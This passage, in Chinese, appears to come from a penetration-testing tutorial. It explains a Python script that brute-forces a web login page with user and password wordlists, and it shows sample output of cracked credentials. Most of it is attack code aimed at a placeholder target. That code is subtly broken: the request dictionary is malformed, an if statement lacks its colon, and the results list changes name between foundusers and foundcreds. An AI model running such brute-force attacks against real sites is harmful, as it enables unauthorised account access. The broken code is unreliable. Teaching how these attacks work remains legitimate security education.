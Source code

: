 以下是运行脚本时产生的输出示例：

```py
python bruteforcepasswords.py userlists.txt passwordlist.txt

Found User and Password combinations:

root:toor

angela:trustno1

bob:password123

john:qwerty

```

## 工作原理…

在最初导入必要的模块并检查系统参数后，我们设置了密码检查：

```py
filename1=str(sys.argv[1])
filename2=str(sys.argv[2])
userlist = open(filename1,'r')
passwordlist = open(filename2,'r')
```

文件名参数存储在变量中，然后被打开。`r`变量表示我们以只读方式打开这些文件。

我们还指定了目标，并初始化一个数组来存储我们找到的任何有效凭据：

```py
url = "http://www.vulnerablesite.com/login.html"
foundusers = []
FailStr="Incorrect User or Password"
```

前面代码中的`FailStr`变量只是为了让我们的生活更轻松，通过使用一个简短的变量名来代替整个字符串的输入。

此方法的主要部分在一个嵌套循环中，我们在其中进行自动密码检查：

```py
for user in userlist:
  for password in passwordlist:
    data = urllib.urlencode({"username="user&"password="password })
    request = urllib2.urlopen(url,data)
    response = request.read()
    if(response.find(FailStr)<0)
      foundcreds.append(user+":"+password)
    request.close()
```

在此循环中，将发送一个包含用户名和密码的请求。如果响应不包含指示用户名和密码组合无效的字符串，那么我们知道我们有一组有效的凭据。然后将这些凭据添加到我们之前创建的数组中。

一旦尝试了所有的用户名和密码组合，我们就会检查数组，看看是否有任何凭据。如果有，我们就打印出凭据。如果没有，我们就打印出一个悲伤的消息，告诉我们我们什么都没找到：
